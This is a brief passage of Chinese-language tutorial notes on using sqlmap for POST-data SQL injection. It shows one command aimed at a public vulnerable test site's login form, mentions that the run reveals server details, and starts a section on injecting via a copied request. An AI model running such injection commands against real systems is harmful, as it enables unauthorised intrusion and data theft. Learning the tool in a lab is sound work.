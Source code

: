 post注入带data

```
python sqlmap.py -u "http://testphp.vulnweb.com/login.php" --data "uname=123&pass=123"
```

跑出服务器等信息

![image-20240414110217322](../图片/image-20240414110217322.png)

##### 数据包注入*

复制请求头

![image-20240414110724712](../图片/image-20240414110724712.png)
